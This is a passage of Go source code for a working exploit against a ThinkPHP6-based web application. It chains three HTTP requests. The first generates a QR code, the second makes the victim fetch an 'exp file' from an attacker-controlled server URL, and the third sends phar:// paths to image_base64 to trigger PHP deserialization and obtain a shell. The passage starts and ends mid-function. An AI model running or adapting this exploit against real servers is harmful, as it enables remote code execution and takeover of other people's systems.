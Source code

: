 ```go
        fmt.Println("[--] ", err)
        return
    }
    err = StepThree()
    if err != nil {
        fmt.Println("[--] ", err)
        return
    }
}

// Generate Qrcode dictionary
func stepOne() error {
    fmt.Println("[**] Step one: generate qrcode dictionary.....")
    genQRUrl := fmt.Sprintf("%s/api/pc/get_pay_vip_code", target)
    client := req.NewClient()
    resp := client.NewRequest().MustGet(genQRUrl)
    if !strings.Contains(resp.String(), "{\"status\":200") {
        return errors.New("Step one error")
    }
    fmt.Println("[++] Step one successfully .....")
    return nil
}

// Write exp file into victim
func stepTwo() error {
    fmt.Println("[**] Step two: Writing exp file.....")
    downFileUrl := fmt.Sprintf("%s/api/image_base64", target)
    client := req.C()
    resp := client.R().
        SetFormData(map[string]string{
            "code": serverUrl,
        }).MustPost(downFileUrl)
    startTime = time.Now().Unix()
    fmt.Println("step two: ", resp.String())
    if strings.Contains(resp.String(), `{"code":"data:image`) && count > 0 {
        fmt.Println("[++] Step two successfully!")
        return nil
    }
    return errors.New("Step two error")
}

// Phar to trigger ThinPHP6 unserialize attack
func StepThree() error {
    fmt.Println("[**] Step three: phar unserialize.....")
    rceUrl := fmt.Sprintf("%s/api/image_base64", target)
    client := req.C()
    isShell := false
    for i := 1; i < 6; i++ {
        fmt.Println("Now  timestamp is ", startTime)
        resp := client.R().
            SetFormData(map[string]string{
                "image": fmt.Sprintf("phar://uploads/qrcode/%d.png/test.png", startTime),
            }).MustPost(rceUrl)
        fmt.Println(resp.String())
        if strings.Contains(resp.String(), `"image":"data:image`) {
            isShell = true
            break
        }
        startTime++
    }

    if isShell {
        fmt.Println("[++] Step three succrssfully....")
```